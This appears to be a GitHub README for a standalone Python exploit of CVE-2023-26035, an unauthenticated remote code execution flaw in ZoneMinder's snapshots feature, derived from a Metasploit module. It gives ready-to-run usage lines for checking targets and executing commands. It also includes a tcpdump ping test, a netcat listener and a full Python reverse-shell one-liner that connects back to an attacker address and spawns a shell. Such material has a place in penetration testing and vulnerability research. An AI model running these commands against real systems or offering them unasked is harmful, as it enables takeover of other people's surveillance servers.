

# Exploit - ZoneMinder CVE-2023-26035

There is a **Unauthenticated Remote Code Execution (RCE)** affecting **ZoneMinder** Snapshots.  
This is an **exploit** for CVE-2023-26035.

## Affected versions

ZoneMinder **< 1.36.33** and  
ZoneMinder **< 1.37.33**.

## Usage

#### Check if the target is vulnerable:

    python3 zoneminder.py http://target

#### Execute a command

    python3 zoneminder.py http://target command

## Examples

#### Test command execution with `ping`

Run `tcpdump` on the interface connected to the target (here `tun0`) and filter for `ICMP` packets:

    sudo tcpdump -i tun0 icmp

Then execute a ping to your IP. Make sure to use quotes `"` as otherwise the command won't be interpreted correctly.

    python3 zoneminder.py http://target "ping -C 4 your_ip"

#### Reverse shell

Create the listener with netcat:

    nc -lvnp 1337

Use a reverse shell oneliner:

    python3 zoneminder.py http://TARGET "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"YOUR_IP\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'"

More at https://revshells.com.

## Requirements

The exploit make use of **`requests`** and **`BeautifulSoup`**.
Install it with :

    python3 -m pip install requests beautifulsoup4

## Acknowledgements

I just wanted a standalone exploit that didn't require Metasploit.  
The script is derived of https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb

https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr